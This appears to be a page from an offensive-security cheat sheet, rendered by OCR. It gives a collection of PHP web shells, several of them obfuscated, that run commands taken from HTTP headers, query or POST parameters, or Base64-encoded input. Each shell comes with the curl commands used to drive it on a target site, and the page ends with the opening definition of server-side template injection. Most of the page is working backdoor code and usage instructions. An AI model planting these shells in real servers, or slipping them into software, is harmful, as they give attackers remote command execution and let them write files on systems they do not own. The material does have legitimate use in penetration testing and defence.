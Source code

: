 ```

More Advanced PHP Web Shells:
    <?php system($_SERVER['HTTP_USER_AGENT']); ?>
    [Interaction: 'curl http(s)://<target.site>/shell.php -A "<command>"']

    <?php echo exec($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
    [Interaction: 'curl http(s)://<target.site>/shell.php -H "Accept-Language: <command>"']

Obfuscated PHP Web Shells:
    <?php $_GET['1']($_GET['2']); ?>
    [Interaction: 'curl http(s)://<target.site>/shell.php?1=<function>&2=<command>']
    [Example: 'curl http(s)://<target.site>/shell.php?1=system&2=whoami']

    <?php $_POST['1']($_POST['2']); ?>
    [Interaction: 'curl -X POST http(s)://<target.site>/shell.php -d "1=<function>&2=<command>"']
    [Example: 'curl -X POST http(s)://<target.site>/shell.php -d "1=system&2=whoami"']

More Advanced Obfuscated PHP Web Shells:
    <?php
        if (isset($_GET['1']) and isset($_GET['2'])) {
            if (isset($_GET['3'])) {
                $_GET['1']($_GET['2'], $_GET['3']);
            } else {
                $_GET['1']($_GET['2']);
            }
        } else {
            die();
        }
    ?>

    This web shell allows for the use of functions where it takes two arguments.
    For example, you want to write a file on the target, you can use the function 'file_put_contents'.
    You would interact with it like so:
    'http(s)://<target.site>/shell.php?1=file_put_contents&2=<path_to_write_file>&3=<file_contents>'

    However, you can also use it as a regular web shell just to run commands:
    'http(s)://<target.site>/shell.php?1=system&2=whoami'

A way to obfuscate the interaction with the payload is to use Base64 encoded commands.

<?php
    $_GET['1'](base64_decode($_GET['2']));
?>
[Interaction: 'http(s)://<target.site>/shell.php?1=system&2=d2hvYW1pCg==']
['d2hvYW1pCg==' is the Base64 representation of the command 'whoami']
```

### SSTI (Server-Side Template Injection)
SSTI is the term used for injecting a payload, containing valid templating syntax, into a
web request that results in unintended output such as verbose errors, source code exposure,
variable value exposure, environment variable value exposure, and but not limited to
remote code execution.
